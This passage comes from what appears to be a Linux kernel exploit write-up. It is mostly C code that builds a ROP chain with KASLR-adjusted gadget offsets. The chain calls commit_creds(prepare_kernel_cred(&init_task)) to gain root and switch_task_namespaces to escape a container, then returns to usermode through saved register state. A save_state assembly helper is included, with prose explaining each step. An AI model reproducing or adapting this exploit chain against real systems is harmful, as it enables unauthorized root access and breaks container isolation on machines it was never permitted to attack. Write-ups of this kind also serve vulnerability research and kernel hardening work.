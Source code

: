 ```c

// rax = find_task_by_vpid(1)
gadget_start[idx++] = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
gadget_start[idx++] = 1;
gadget_start[idx++] = curr_gadget->find_task_by_vpid_offset + kaslr_slide;

// switch_task_namespaces(rax, &init_namespace);
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = pipe_buffer_addr + 0x200 + 0x7f;
gadget_start[idx++] = curr_gadget->push_rax_jmp_qptr_rsi_7f_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->init_nsproxy_offset + kaslr_slide;
gadget_start[idx++] = curr_gadget->switch_task_namespaces_offset + kaslr_slide;

// End the ROP and return to user mode
gadget_start[idx++] = curr_gadget->ret2user_gadget_offset + kaslr_slide;
gadget_start[idx++] = 0;
gadget_start[idx++] = 0;
save_state();
// for prevent xmm segfault on usermode
rsp &= ~0xf;
rsp += 8;
gadget_start[idx++] = post_exploit;
gadget_start[idx++] = cs;
gadget_start[idx++] = rflags;
gadget_start[idx++] = rsp;
gadget_start[idx++] = ss;

*(uintptr_t *)(buf_ptr + 0x200) = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
```
After the pivot gadget sequences are executed, the kernel stack is pivoted into `chunk_address` + 0x50.  
The ROP chain performs followings for privilege escalation and container escape.
- `commit_creds(prepare_kernel_creds(&init_task));`
	- Allocate new kernel-privileged cred and install it into the current process. This escalates the current task's privilege to root.
- `switch_task_namespace(find_task_by_vpid(1), &init_nsproxy)`
	- Switch the container root process’s nsproxy to init_nsproxy. This prepares the container escape.
- `swapgs_restore_regs_and_return_to_usermode`
	- Finish the ROP and resume the execution into usermode.

The above code is for crafting the ROP payload with kernel functions and gadgets set from [initialization step](#51-initialize-kernel-image-specific-values). Note that we modified the usermode `rsp` value to prevent segfault by unaligned `rsp` value when executing AVX instructions on the post-exploit step.

- [exploit/extra-refined/exploit.c#L271](../exploit/extra-refined/exploit.c#L271)
```c
static void save_state()
{
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        "movq %%rsp, %3\n"
        : "=r"(cs), "=r"(ss), "=r"(rflags), "=r"(rsp)
        :
        : "memory");
}
```
`save_state` function stores the current usermode status such as `cs`, `ss`, `rflags`, `rsp`, and `ss`. These register values are used when the kernel ROP returns to usermode. 
